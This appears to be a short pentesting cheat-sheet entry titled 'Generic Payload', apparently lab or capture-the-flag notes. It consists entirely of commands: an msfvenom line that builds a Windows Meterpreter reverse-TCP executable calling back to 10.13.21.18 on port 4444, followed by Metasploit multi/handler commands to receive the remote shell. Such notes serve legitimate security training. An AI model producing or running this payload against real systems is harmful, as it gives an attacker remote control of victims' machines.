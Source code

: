 ## Generic Payload

* msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.13.21.18 LPORT=4444 -f exe > shell.exe
* use exploit/multi/handler
* set payload windows/meterpreter/reverse_tcp
* set LHOST 10.13.21.18
